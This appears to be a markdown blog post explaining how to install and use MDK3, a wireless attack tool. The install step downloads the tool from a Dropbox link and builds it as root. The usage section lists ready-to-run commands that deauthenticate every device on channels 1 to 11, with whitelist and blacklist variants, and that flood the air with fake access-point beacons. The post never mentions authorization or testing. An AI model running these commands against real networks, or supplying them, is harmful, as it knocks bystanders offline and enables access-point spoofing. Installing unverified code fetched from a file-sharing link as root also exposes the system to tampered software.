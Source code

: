 ```yaml
---
layout: post
title: Installation and Basic Usage of MDK3
excerpt: A how-to for the installation and basic usage of mdk3.
---
```

###Installation

Use the following commands

```bash
wget https://www.dropbox.com/s/7oytphewrbcxkoz/mdk3-v6.tar.bz2
tar -xjf mdk3-v6.tar.bz2
mv mdk3-v6 mdk3
cd mdk3
sudo make && sudo make install
```
		
###Usage

####Set Wifi Adaptor into Monitor Mode

Use the following commands
	
	sudo iw phy phy0 interface add mon0 type monitor 
	sudo iw dev wlan0 del

####Deauthentication

Deauth all devices on every channel

	sudo mdk3 mon0 d -c 1,2,3,4,5,6,7,8,9,10,11
		
Deauth via whitelist (deauth all devices excluding those on the list)

	sudo mdk3 mon0 d -w /home/username/whitelist.txt -c 1,2,3,4,5,6,7,8,9,10,11

Deauth via blacklist (deauth only devices on the list)

	sudo mdk3 mon0 d -b /home/username/blacklist.txt -c 1,2,3,4,5,6,7,8,9,10,11

###Beacon Flood Mode

Broadcast a random list of fake access points

	sudo mdk3 mon0 b 
		
Broadcast a certain access point by name

	sudo mdk3 mon0 b -n example_network
		
Broadcast a list of access points from a file

	sudo mdk3 mon0 b -f /home/user/example_network_names.txt

For more information use `sudo mdk3 --fullhelp`		

###Set Wifi Card Back to Managed Mode

Use the following commands

	sudo iw phy phy0 interface add wlan0 type managed
	sudo sudo iw dev mon0 del

		
